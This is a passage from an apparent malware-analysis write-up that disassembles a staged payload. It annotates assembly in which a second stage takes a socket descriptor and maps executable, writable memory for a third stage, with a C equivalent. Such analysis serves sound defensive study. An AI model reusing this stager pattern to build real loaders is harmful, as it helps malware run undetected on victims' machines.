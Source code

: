 #    0x7ffff7ff8066:      push   rbx
#    0x7ffff7ff8067:      push   rbx
#    0x7ffff7ff8068:      push   rdi
#    0x7ffff7ff8069:      push   rcx
#    0x7ffff7ff806a:      mov    rax,0x2
#    0x7ffff7ff8071:      push   rax
#    0x7ffff7ff8072:      mov    rax,0x8d55
#    0x7ffff7ff8079:      add    rsi,rax
#    0x7ffff7ff807c:      jmp    rsi
</code></pre><p>Below is the analysis of the first block.</p><pre><code class="language-nasm">; store the file descriptor of the socket on the stack
push   rdi

; clear RDI
xor    rdi,rdi

; set some registers:
; - RSI = 3012548
; - RDX = 7
; - R10 = 34
mov    rsi,0x2df7c4
mov    rdx,0x7
mov    r10,0x22

; clear R8 and R9
xor    r8,r8
xor    r9,r9

; set RAX to 0x9 (syscall sys_mmap)
mov    rax,0x9

; invoke sys_mmap
syscall
</code></pre><p>It can be converted to the following C code:</p><pre><code class="language-cpp">mmap(
  0,            // let the kernel choose where to allocate the memory space
  3012548,      // allocate 3012548 bytes
  7,            // PROT_EXEC | PROT_READ | PROT_WRITE
  34,           // MAP_ANONYMOUS | MAP_PRIVATE
  0,            // ignored, since we're using MAP_ANONYMOUS
  0             // MAP_ANONYMOUS requires this parameter to be 0
);
</code></pre><p>It seems the second stage allocates <em>some memory</em> in order to make room for the third stage.</p><p>After that we have the second block of instructions:</p><pre><code class="language-nasm">; copy the value 3012548 into RDX
mov    rdx,rsi
